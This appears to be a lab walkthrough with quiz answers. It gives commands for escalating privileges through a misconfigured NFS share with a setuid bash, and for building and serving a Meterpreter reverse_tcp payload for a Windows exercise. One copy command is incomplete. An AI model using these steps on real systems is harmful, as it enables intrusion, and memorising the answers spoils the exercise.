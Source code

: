 ```
showmount -e <IP addr>

mkdir /tmp/nfs

sudo mount -t nfs <IP addr>:/home /tmp/nfs

cd /tmp/nfs

sudo cp /bin/bash

sudo chmod +s bash

ls -la bash

ssh -l ubuntu <IP addr>

cd /home

./bash -p

id
```



Exploit misconfigured NFS to gain access and to escalate previleges on Ubuntu machine. What is the command that is used to view current processes along with their PIDs?

ps -ef

```
ps -ef
```



### Bypass UAC and Exploit Sticky Keys

Exploit Sticky keys feature to gain access and to escalate previleges on the Windows 11 machine. Enter the domain of Windows 11 obtained from sysinfo command in meterpreter session.

WORKGROUP



#### Create Binary

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip addr> lport=444 -f exe /home/attacker/Desktop/Windows.exe 
```

#### Share Binary

```
mkdir /var/www/html/share

chmod -R 755 /var/www/html/share

chown -R www-data:www-data /var/www/html/share

cp /home/attacker/Desktop/Windows.exe /var/www/html/share

service apache2 start
```
